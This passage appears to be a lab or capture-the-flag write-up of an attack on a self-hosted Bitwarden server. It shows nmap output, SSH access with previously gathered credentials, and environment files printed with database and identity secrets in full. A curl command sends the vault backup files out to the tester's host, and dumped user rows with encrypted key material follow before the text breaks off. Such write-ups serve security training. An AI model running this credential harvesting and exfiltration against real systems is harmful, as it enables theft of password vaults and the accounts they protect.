







# Initial Enumeration

As usual I will perform a full enumeration of all the TCP ports on this server:

```bash
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 87:b5:ce:5c:ab:36:51:49:88:54:a7:d5:a5:e1:0b:30 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFI0STW/8BSDCVrY396oLtE1pBKgMlvu3vh9lTxLwnDWF473k4mT+qBiruRfKVrbPUbABKFutm4beE2UNz/aDaA=
80/tcp  open  http     syn-ack ttl 64 nginx
|_http-title: Did not follow redirect to https://s021v010.work.junon.vl/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
443/tcp open  ssl/http syn-ack ttl 64 nginx
|_http-favicon: Unknown favicon MD5: 2F0DF01346ACE9AFB440288FEEB5D974
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET HEAD
| ssl-cert: Subject: commonName=s021v010.work.junon.vl/organizationName=Bitwarden Inc./stateOrProvinceName=California/countryName=US/localityName=Santa Barbara/organizationalUnitName=Bitwarden
| Subject Alternative Name: DNS:s021v010.work.junon.vl
| Issuer: commonName=s021v010.work.junon.vl/organizationName=Bitwarden Inc./stateOrProvinceName=California/countryName=US/localityName=Santa Barbara/organizationalUnitName=Bitwarden
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-03-26T13:58:57
| Not valid after:  2123-03-02T13:58:57
| MD5:     300d bb04 fe3a c257 18f7 f1dc 8a3d acb7
| SHA-1:   69d5 a775 3a7a 34ec 72e9 4583 cf36 6c64 0ae9 3505
| SHA-256: c3e2 5b5b 4231 e8d2 7d76 3657 a83a 319c 1b00 87ed 87e8 e669 da87 e42a 32f8 5204
| -----BEGIN CERTIFICATE-----
| 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
| PVQ4Z8hkWf0X
|_-----END CERTIFICATE-----
|_http-title: Bitwarden Web Vault
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 2.1.X (85%)
OS CPE: cpe:/o:ibm:zos:2.1
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 2.1 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/30%OT=22%CT=%CU=%PV=Y%G=N%TM=69CA32C5%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=104%TI=I%CI=I%TS=A)
SEQ(SP=107%GCD=1%ISR=106%TI=I%CI=I%TS=B)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

```

# HTTPS

Adding the local host obtained via that forced redirect on the HTTPS port shows that this is indeed the Bitwarded server and it is worth checking here and then for possible access( I suspect it will be usefull when moving to other domains).



# SSH

With the new credentials obtained by the machine S021W105(saved in Mremote-NG) I can ssh into the back-bone of Bitwarden:



I can see the credentials for the SA on a MSSQL? Strange isn't supposed to run on a MySQL instead?

```bash
bitwarden@s021v010:~/bwdata$ cd env/
bitwarden@s021v010:~/bwdata/env$ ll
total 20
drwxrwxr-x  2 bitwarden bitwarden 4096 Mar 26  2023 ./
drwxrwxr-x 14 bitwarden bitwarden 4096 Mar 26  2023 ../
-rw-------  1 bitwarden bitwarden 1323 Mar 26  2023 global.override.env
-rw-------  1 bitwarden bitwarden   45 Mar 26  2023 mssql.override.env
-rw-rw-r--  1 bitwarden bitwarden   30 Mar 26  2023 uid.env
bitwarden@s021v010:~/bwdata/env$ cat uid.env 
LOCAL_UID=1001
LOCAL_GID=1001
bitwarden@s021v010:~/bwdata/env$ cat mssql.override.env 
SA_PASSWORD=ofVry0koODFJ2hVJDTdHly7CVaa6ptGp
bitwarden@s021v010:~/bwdata/env$ cat global.override.env 
globalSettings__baseServiceUri__vault=https://s021v010.work.junon.vl
globalSettings__sqlServer__connectionString="Data Source=tcp:mssql,1433;Initial Catalog=vault;Persist Security Info=False;User ID=sa;Password=ofVry0koODFJ2hVJDTdHly7CVaa6ptGp;Multiple Active Result Sets=False;Connect Timeout=30;Encrypt=True;Trust Server Certificate=True"
globalSettings__identityServer__certificatePassword=w7pdyHYcgjsd74Lbp9EpTNoQzwM1x1jJ
globalSettings__internalIdentityKey=nCJFQKUyDo1C0py0GclW0nbc7xmdJYY9rPjtp4819aa4uiGVo9PRiVDZxALACI9B
globalSettings__oidcIdentityClientKey=37zi1phuI86p7Z0ASH7ZUxXVpNDi4tEdxzD0vy9psPqdXMLEXJqBnQyCbNONtjUB
globalSettings__duo__aKey=aE8ToJ1gau9A6z2E3AD3oRP4SRGZalVW9FIJUUHtdyOfEwf7BIcfSoFmkNVQmFaU
globalSettings__installation__id=985645b0-22fe-455b-ae02-afd100e64c73
globalSettings__installation__key=xtrxC5GKjPJjtYmiTwOB
globalSettings__yubico__clientId=REPLACE
globalSettings__yubico__key=REPLACE
globalSettings__mail__replyToEmail=no-reply@s021v010.work.junon.vl
globalSettings__mail__smtp__host=REPLACE
globalSettings__mail__smtp__port=587
globalSettings__mail__smtp__ssl=false
globalSettings__mail__smtp__username=REPLACE
globalSettings__mail__smtp__password=REPLACE
globalSettings__disableUserRegistration=false
globalSettings__hibpApiKey=REPLACE
adminSettings__admins=bitwarden@work.junon.vl

```

Now I will download the Vault backups for later use:

```bash
bitwarden@s021v010:~/bwdata/mssql/backups$ ll
total 34436
drwxrwxr-x 2 bitwarden bitwarden    4096 Mar 29  2023 ./
drwxrwxr-x 4 bitwarden bitwarden    4096 Mar 26  2023 ../
-rw-r----- 1 bitwarden bitwarden 8808960 Mar 26  2023 vault_FULL_20230326_235903.BAK
-rw-r----- 1 bitwarden bitwarden 8808960 Mar 27  2023 vault_FULL_20230327_000000.BAK
-rw-r----- 1 bitwarden bitwarden 8808960 Mar 28  2023 vault_FULL_20230328_000000.BAK
-rw-r----- 1 bitwarden bitwarden 8808960 Mar 29  2023 vault_FULL_20230329_000000.BAK
bitwarden@s021v010:~/bwdata/mssql/backups$ ^C
bitwarden@s021v010:~/bwdata/mssql/backups$ curl -X POST http://10.10.14.18/upload -F 'files=@vault_FULL_20230326_235903.BAK' -F 'files=@vault_FULL_20230327_000000.BAK' -F 'files=@vault_FULL_20230328_000000.BAK' -F 'files=@vault_FULL_20230329_000000.BAK'
bitwarden@s021v010:~/bwdata/mssql/backups$ 

```

After a good while I was able to import the vault DB and obtain the master passwords from the users:

```sql
3BDF8BA3-7FB1-40CA-BA93-AFD100EBB507	bitwarden	bitwarden@work.junon.vl	1	P|CfDJ8JTKuxL9YjZHjN0oSua9xx_R0nswjxBWsm5fSRlklelq4YwsBWrhKzysgyJ6DGnsxGKPgCFAmLOiea86v9Mnv6_CbfMYBiPlRuPg8uK6U51Hi72ogco2fo5sNjtjE78bvD5Gch8aJNsL6R9QlGSoDBSpzjN1mCTDQMRgYL4LmFvLWYV4qFxWGA7Wo714DCgGY8Hi149CU59pvhSDx4-y7ba0rx5KW3J4vfkzZ1k2VjBY	NULL	en-US	VGJ6GQGGTFOCBJMZXSWMFPEGUF7UC4H6	NULL	NULL	NULL	NULL	2023-03-26 14:36:37.8800000	P|CfDJ8JTKuxL9YjZHjN0oSua9xx-KTLhhfep-YAZNxLQS7HvzJsvOMRt46bFzR_pFQh2OVnrltx3ZI_LGqVOsnhlbIs9BG_C5OPDeeVrN4uFm8H-SlSxyqn1T_gKKvdTeTSt3uGoOEtTTSkbEoInIsYXMmM5FUrCZmmfkMdAdmSsFHhKdOJ5i5ZtBDZsx1w0TlSDbtMO2LRePx5ioArE6POJk2YsJsDMOb-TYFfJrfcT9g2DIp14W6q7bQW2jLzZPuejenM6PPen_tuvv3gA23I0PXrfozI40Ut5Q8AeBlLvUop--pfsfLkPzgiUsq6yDoaSM7UN2Rjgt_8nHOkc84DFYHyPRvyDzkTI1qsEu0YVcCwHF	MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3ni8Zb2mZL4WwJyPyV0awr6wzhP0dIpgswFfgjRX6fZVzhiTp+b/LqvEsMAZjo2jDgHyhf1bF5OhirOFtxRq+1aoY1yoQSI/VQXVXO0rLCFWJ+OLq7w9waFFOEq9wKYM6aEnIhyMlrrGhH7vSe5Yl546wnqc3jU6PlibmjkiKRbYIfoGfAbivhqlcueODPjPZMgsc18tbn3ilatwmRn2osFyaQReIFrf041nD3R53gLNRh/TeCnE0o9drx8P/kleR/We5PhGIGd5sXVf0STfS4vFlneI/M18bDBGxYHi9Hvk4eHiPSYFwyEVTEuYA9+9touMckKLb3a3eBQeF5+75QIDAQAB	2.xJ2m0FB3SgrEyE+ln9xo4A==|ob02hIfT6vhEs7pAiQRN6X7fK1XC/i0tlOCDQw3p6CDhJjJ9HjHDGfun49lM/3i8oEcs68jDmzIHJ+HCyWknq3BTrHDd5kCWV05JbP+7EF2Ug+ck0OfI70cVOCJdHWzMdF8BMZHoVfXkldaIGWDqMUlChtoncG7vmYweMRURor1zrnMGi+0PRGXNBHoJXBV+ZD2qANGaY+kmUiK+HRG+iAoDCac4t3Xj8k/gemf6UrGQnOqFLDT6LzUXfL8n2IiAvHggti3JTb3rg5i5UMI8QPmejtEFY5Mt3SdRbmtInEf1Q5NcDBU/itEhl8emKQJz6zHIn+rY+l14RU2KbNQ8kkyTMLeSd2uVMUaO+uYrek6uiEefHSOiohAtxpQUzAIgPjxsw3uJOme2dYsQ8OMyTQTCsaAgnalm0p5N27ubeYgqfzSSkFiwsdJzVFvkNbHLEmj1eq5L2Pt2XcC7/MUIW2Aeib6EC2yTYvBXMOOID4LDkg84SF7oSeQmkLKkKjLiHsppF2U0P0vGPuOYU3yZ2E1PNX0qyDr2LfmpSXvjGyzY9lCdtuyELSpfm1bHfhE6qVo85XJjMd/VdZg11XImnwRnamonLcBRzMWA3Hs+V3LxWbrRtHt66YB5I7SP+cSQdT0IENTA/TGwjmfDXhpTGRRv3k3npHPbf2bfEFMNhM+4vna6Ycd0PoaFz0fjdiyS+6/VwrSzuXYYme5X4Oxxxkl6ya0g0xRDG+E5Dzv2KIALG/wMsvUwACEhCJG142Yt0VjS4v3zmJFLOshLzTs3EAm5drNa0KFXhsvhxtOZivMcwPn1VJKonV0mL5N1VD8Y7lkWrmtTVJulbIurYg3VZmWnmODT5LPtcgn9JJl78bNTLsTpsuRVf6ONV+BYDSvkA6CoJzhCj2au/oGxQk3gqsdMpH6oRq26zgBgQupLozp0qVR+mo7JUE9EEXOLcRgWDdlja+g6TfxlQKofznxTQFhmAeZWQbhxAYW/tP8iW5ch/jhaSFqI2BQhJn8lzgbNUigyUDF7LLWTsTRR0QKQrGMRkG/8bdC+2rQ+vp8ymvh92QslErs6YzS11T48ZvzFV+g3pGGQ+nHKcaXcldMjkerQ9dEJMj40QXpF8HCFJAL2scp7uGrehVQRYZnkbxfX/7fQA3f9mKvIURiGPAnUpBUNaWNc/R6wjV5W7fxvg8+EnpXip0N9i7KFW1JqtHvWLJ+koWwLnF4+R5KLAQuEHW6CzM4vC0+V9ltWTeEft0IwPyLBSx4NZwbo3daWWweIRN59r9zzC0EeH0qpoly1eiUaq0tu4+u3REJfDC1C9qIIy4dM4CMgcyvT4EP1SePYqc1C0T3SVeYZZ0qv/8CZXSrFBm2QDgbPQfySn6HgRZltYviocgXaF2v1LCpCVjl6rHArosO5/j3j0uLh1JnmaNIPbBly4w/iRqB14EMLaN7j7MZsLhH4t8mI/V6ba+7xjT7dDjY/NiHR+DZ9Z6RG0ELqufpaU1uRNDlvrA6/5erMHfEkxRrNo3ZfqAHJAISrzWOLfdBlAm3GUIH0ASliDRhVTR+7sjzwKTIyORDeRRY7HTrlcZ3x5h/8h0WMvV7ix0ulI9WiMZZgezJnfucvftPVChd6dLPpEjsTaF3eMfw=|XIXHBB1fbFJd4X/OaUVftCkmH5jzpS4Ivk2IMpVqMUY=	0	NULL	NULL	NULL	NULL	NULL	NULL	NULL	2023-03-26 14:18:10.6600000	2023-03-26 14:18:10.6600000	NULL	0	600000	{"id":null}	NpyFomXNSc4r7CCmzOmF82ScoPGqRs	0	0	0	NULL	1	NULL	NULL	NULL	NULL	NULL	NULL	NULL
B18672A8-F0CD-4128-ADF2-AFD10147B785	carly	carly.adams@junon.vl	0	P|CfDJ8JTKuxL9YjZHjN0oSua9xx_zY_7LtIFNwbBZ0eDgb4tr1fZKrs97sWjH6sQAckFAeDhA_8k12IFthxkjDulMkbBJ2Z0LVJS6KWCsU83g8q9fjtmJwCPGlTUfyh6y6y7awWA5z5NsesBotFtzafDNWzeaeJ6jLxT8RcT8yHtSoaaaeE3UM8pv57YmMRVC5x1lKvZsnxFDX8qeWBdqsDwydqjIiatUxvCPMXfq5dZb1SpN	NULL	en-US	7J3VQ4VQGH4KBWWMVUVOYZ4642W7FIE7	NULL	NULL	NULL	NULL	2023-03-26 19:54:27.7866667	P|CfDJ8JTKuxL9YjZHjN0oSua9xx8Ry8sxDcPgCm5_KeNIAb_rNSr3fBR75eUFSQYkF0OvICo5dKAkX3RqlhgKzIvJzwHaqpDGrog4uNPHVLMCt0wfekh-9XO1Ti68X73wA5mmD3rm7aA7S9t9d4TqiNR0e2CVmfkJYivDd5XP0hkCOr8emLjbtU4AWmmmc6yDriaR6hpVbI8-qyUHBYEqG0Oq-JxcNVzHYpACK05MysFLkeiPjIqk9PIZRwY9JKMRijftJiHcDcp0qBsCa9GkV0NcIH-ziWs_NWF6-pXeXLPTMhV1VjXQrWfH95hgu8-ahYplCb4v1RVk7MFQOUv7VWMJHsxGCMRIEFgNeB8ieqf1vEzi	MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEArNgNxlcBfEwznKiaYp/Z9GDOSb+nk+T05ZbUZ/5BHPJJIlOvkyV1fOmk4JqF5OER9LRkLnza4uJE02ogS7ZPdV6fBeGyD+vMFoEkENwG54XzwOsyzQ8V2HDxZYj374WP3Tlu9BMrU6ggodR3Z0+5T7rn9LvkGqk5VRczgUxkDYbTz1G1J2XhqjgQUINXKJv9igZwpMu8d0lwasynggbbdmBRTHvQit9z7N9nu6Q+NlNkHggmAsjdF8lX9VR7g17YYOufB8xist/31leFYbIiFMrrx73WFCZb3Kn3pbgso9Pmp/MkCYeZ3OwnOpp1MRRyQ4WQoXnpokin+/iQTSRXYQIDAQAB	2.A9FUvCsehwZLPyvu6XY/HA==|zbwBU3BuHfHcW1UA4CFWzr+88xuNJGLfSlEvdLcn7EccnTbeAuRACUBkeOc03PTY7DKK2b0+W7/f8cHreP7UgyRnq3TpYRvvxc9RnXSyHE89wgflekMl2+SGBqdE1hxu0rFGgUPyhHS8XUSrAYYc2XXdozmwAjidNh3AVMXB6yFiufQ2r+677I5rrbyLFl0Vs66JQ1Gs/vXW3xu1be3mHMLOL12KqnpgNpyi4ddvlMCyPWK75mtVtND0AO2mAeyGgQsrjtPSsKuVn1X3uu6nnqOhqPB+nEiY4f0iAzDklYjjM8Uu3Jlh2CTTucK+bHcAzEID4i3mDXezN0ZoKxGlD469Prs7cC2e5NOJPe+EIaUK0wf++k2HkyHPNwr4JidV6szDfru7VE7FVWGHRIh8QaHI0RVo5x+jX+Ohj0qP37SFdVrdNTQ327AyOJLbBQYHuI3wwhp6WAJp88URvR2udep85zdPdUZ8oiphx6iXHSHSHzQN/coUg9zMqr73D/9rWtk7AGjCNpclbVADDXNUSlsU3fW3P0t7U/JbIp0molo0WB4AGoMOYZPG1x/t/iIhQff6qicrgCJjbh1SSW3yGbYzLyYbMSm2H2fcudVIF+XgAeQWoZXuRuGz0ygvg8w3OekNPRFJaX1SMx6wAk9k5/sLFshq4hKglhFEF9hDcYGzqLFRhaWx06nd0BdbN4LpFRiUQeG0DDD9y5LQNj9RfzgT7q6LVjgsEFLOid2Cjf6xlwmVIyRBH/ZOxhpLzImzggIqG3885Y1W0IAaVcMiMndzYymAaTc5sI9dQTw/NJrOQ+GybsYKUlzngZyk14HoXLLzMFe5G6de38TJaR7gFx+jWZ02/Z9Rl1pUqZQ3ENcF2zg6UEbRUgQHpWk4eoy/ugIk7WKrEa5UggA7hUA0DS7qmY8/aAyzXnfLfRFx5myMDTdwmeohEq24wEZPbKh7r6mzpdkUnpfslYGgWPL13p4hZIyoVivTGkDTK34J8xvHT9h/dNGv/pqTBVlR4L0J2KyKZ1Fw/PstXT+rqLJIdgcHLgLiaVMXG4AU0QVOO6pJC8Sz2cL/BOVUxRikpaeTDt4o5+w+Zh3z5zNRsxTexnXxqfwByJW6hKQFRIRNT59Ih6vMT1AIlJIDvcYZrxL58Ryuv6YCexSXfOB9y1HpNRq/wDbgaAPL63r9TZAkKypj8mU/Fb8P4nkvOoYJ7DB+qOBbTGs4X7IBZ7KoxcewGQKpc+UrAVaopzq1BTWKg3zlVukyUbD0i3UorkWzKxxesYd2sfpjfvVTv4RL7bCJag5FK8/HUzSB51rcj15Vkifu8UCLsRLzjn3IHJku1uZ3e5bFpzhfULUOViIYmy21HOHoXLTVHD/HTFppaEax3yIP+0bfO581pU6I7r59LEGcbQV